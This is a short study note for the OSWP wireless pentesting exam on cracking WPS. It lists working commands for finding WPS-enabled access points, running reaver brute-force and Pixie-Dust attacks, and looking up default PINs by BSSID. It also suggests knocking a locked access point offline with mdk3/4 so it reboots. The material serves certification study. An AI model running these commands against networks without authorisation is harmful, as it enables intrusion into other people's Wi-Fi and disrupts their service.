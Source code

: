 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/5-wps-cracking/"}
---
```


----------------
### Scan for APs with WPS:
- Using Wash:
```
wash -i wlan0mon
```
- Add -5 for 5GHz
- _Lck_ indicates if WPS is locked, i.e. attack is pointless at that time
- Using Airodump:
```
sudo airodump-ng wlan0mon --wps
```

-----------
### Reaver default attack:
```
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v
```
- If Reaver won't switch channels and is stuck on ""Waiting for beacon from..." add the -c parameter and specify the channel
- Test for empy pin: -p "
--------------
### PixieWPS attack:
```
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K
```

-------------------------
### BSSID-dependent PIN attack:
1. Load PINs into memory:
```
source /usr/share/airgeddon/known_pins.db
```
2. Check database for first six characters of BSSID:
```
echo ${PINDB["0013F7"]}
```
3. Verify outputted PINs

----
### Common errors:
Problem: Trying PixieWPS PIN with reaver:
```
[!] WPS transaction failed (code: 0x03), re-trying last pin
```
Solution: Restart reaver without PixieWPS option or try alternative wireless card.

Problem: Reaver may keep trying the same PIN in verbose mode:
```
[+] Sending identity response
[+] Received identity request
```
Solution: Try different wireless card with different chipset.

Problem: WPS is locked
Solution: Perform DoS using mdk3/4 or other to make AP reboot
